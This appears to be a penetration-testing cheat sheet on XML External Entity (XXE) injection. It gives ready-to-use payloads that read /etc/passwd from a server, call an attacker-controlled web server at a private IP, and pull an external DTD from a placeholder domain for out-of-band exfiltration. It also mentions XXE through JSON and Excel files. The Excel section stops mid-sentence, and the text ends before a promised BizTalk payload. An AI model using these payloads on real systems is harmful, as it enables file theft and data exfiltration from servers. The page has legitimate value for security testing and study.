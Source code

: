 Even if the data is not reflected backto the website it is still possible to exfiltrate files and data from the server. The technique is similar to how you exfiltrate the cookie in a Cross-Site Scripting attack, you send it in the url.

### Test for it

* Input is reflected

```
<?xml version="1.0"?><!DOCTYPE Any [<!ENTITY xxe "testdata">]><add>&xxe;</add>
```

If "testdata" gets reflected then it is vulnerable to XXE. If it gets reflected you can try to exfiltrate the data the following way:

```
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

Another way to test it is to see if the server tries to download the external script. Firs t you need to set up your own webserver, and then wait for it to connect.

```
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://192.168.1.101/fil.txt">]><test>&xxe;</test>
```


### XXE with JSON


Even if you are sending in JSON, always make sure to convert the JSON to valid XML. And then change the content-type to xml.


For more see:

https://blog.netspi.com/playing-content-type-xxe-json-endpoints/


## XXE in Excel Xlsx files
Excel files are just zipped xml files. So you can simply unzip 



## Payloads

### OOB Simple

```
<!DOCTYPE root SYSTEM "http://yourdomain.net/myDTD.dtd">
```

### OOB BizTalk


This payload will make a request to hackburk.haxxon.se/quel/dtd.xml:
